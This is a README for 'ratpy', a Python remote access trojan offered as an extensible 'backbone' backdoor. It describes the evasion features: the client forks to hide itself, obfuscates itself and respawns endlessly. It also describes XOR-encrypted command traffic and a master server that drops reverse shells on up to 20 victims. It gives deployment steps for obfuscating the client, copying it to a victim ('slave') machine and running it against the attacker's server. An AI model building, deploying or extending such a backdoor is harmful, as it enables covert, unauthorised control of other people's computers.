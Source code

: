 # ratpy
### another snake friendly rat - simple backdoor without tools
<p align="left">
<img src="imgs/ratpy.png" width="320" height="240">
</p>

### _________________________________________________________________________
## Architecture
````
This is a backbone build that can be extended for specific uses
Start server listening up to 20 connections with a simple menu interface in the terminal
Before deploying and starting client change the port and server ip address for your server 
Client will background by forking twice and killing parents and trying to obfuscate itself (can be improved for your choice of system)
If client fails it will respawn forever which might crash the system after a while but wont start on reboot (can be added)
Encryption is done with simple xor of bytearray of data with the key
Which are verified with a TCP like handshake channel or the exchange will be restarted
Once connection is estabilished we have a default set of commands, which can be expanded, to perform basic machine tasks and drop a shell
````

````
The proggie has plenty of debug functions to help understand and debug it, the main utility of this project is
provide a prototype to build something more interesting in a different language, add some tools easily to experiement or get something quickly
tested and educational purposes
````
````
### Master
* interface - server menu and server cli scripting
* threadpool - running paralel code to serve menu while waiting and handling connections set to up to 20 by default
* tools - backdoor :: encrypted reverse shell 30s RAT connection with respawn and client-side
* utils - encryption methods and connection methods
> cd master && python3 main.py <server_ip_addr> <rat_port> <shell_port>
````
````
### Slave
* interface - client cli scripting
* tools - RAT client backdoor
* utils - encryption methods and connection methods
> server :: python3 obfuscator.py && <copy ratpy.py to slave machine>
> python3 ratpy.py <server_ip_addr> <rat_port>
````

### _________________________________________________________________________
## Adding extensions
* this is just a backbone which can be expanded by adding more tools to the interface and tools dir

